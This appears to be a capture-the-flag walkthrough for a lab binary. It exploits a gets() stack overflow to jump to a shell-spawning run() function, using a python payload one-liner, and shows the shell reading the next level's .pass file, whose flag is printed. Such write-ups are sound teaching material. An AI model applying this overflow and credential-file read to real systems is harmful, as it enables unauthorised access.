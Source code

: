 ## Step 1: Static & Dynamic Analysis

```c
08048444  int32_t run()
08048444  {
0804846d      fwrite("Good... Wait what?\n", 1, 0x13, stdout);
0804847f      return system("/bin/sh");
08048444  }

08048480  int32_t main(int32_t argc, char** argv, char** envp)
08048480  {
08048496      void buf;
08048496      return gets(&buf);
08048480  }
```

### Explanation
The goal is to overwrite the return address in the stack with the address of the `run()` function (`0x08048444`), causing the program to execute the shell.

1. Determine the buffer size:
   - The size of `buf` (the buffer being overflowed) is 76 bytes before the saved return address.

2. Craft the payload:
   - Fill the buffer with 76 'A's to reach the return address.
   - Overwrite the return address with the address of `run()` (`0x08048444`), written in little-endian format as `'\x44\x84\x04\x08'`.

## Step 2: Exploiting the Binary

```bash
python -c "print(('A' * 76) + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit
cat /tmp/exploit - | ./level1
"Good... Wait what?"

% cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

The `cat /tmp/exploit - | ./level1` command sends the exploit payload to the program and keeps the input stream open for further interaction. The `-` ensures that after the payload is sent, the shell remains interactive, allowing you to execute commands.

Without `-`, the input stream would terminate after sending the payload, closing the shell immediately.
